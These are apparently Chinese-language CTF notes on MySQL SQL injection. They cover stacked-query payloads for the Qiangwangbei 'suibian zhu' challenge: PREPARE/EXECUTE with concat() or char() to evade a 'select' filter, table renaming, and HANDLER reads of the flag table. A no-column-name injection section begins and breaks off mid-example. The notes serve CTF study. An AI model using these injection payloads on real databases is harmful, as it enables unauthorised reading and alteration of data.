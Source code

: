 ```mysql
prepare xxx from "sql语句";
execute xxx;

由于sql语句是字符串，因此可以使用操作字符串的函数，绕过一些过滤
比如过滤了select
PREPARE st from concat('s','elect', ' * from `1919810931114514`');EXECUTE st;#
```

### 例子

#### 强网杯随便注

```mysql
1';show tables;#  看有什么表在里面
1';show columns from `1919810931114514`;#  看列
1';show columns from `words`;# 可以发现这个表是可以回显内容的
我们可以用函数将1919810931114514表改成words表，来让他自动回显
RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;#将新words表的flag改为id避免开始无法查询
接下来还有
预处理语句使用方法
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句

SET @tn = 'hahaha';  //存储表名
SET @sql = concat('select * from ', @tn);  //存储SQL语句
PREPARE name from @sql;   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句

由于过滤了select
可以用chr()
最后payload:

最终payload
1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE jwt;#

1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#
```

## 无列名盲注

当我们无法获取字段时，比如information\_schema被过滤，可使用无列名注入

### 使用`union select重命名法`

```mysql
mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
+----+----------+------------+
2 rows in set (0.00 sec)

mysql> select 1,2,3 union select * from users;
+----+----------+------------+
| 1  | 2        | 3          |
+----+----------+------------+
```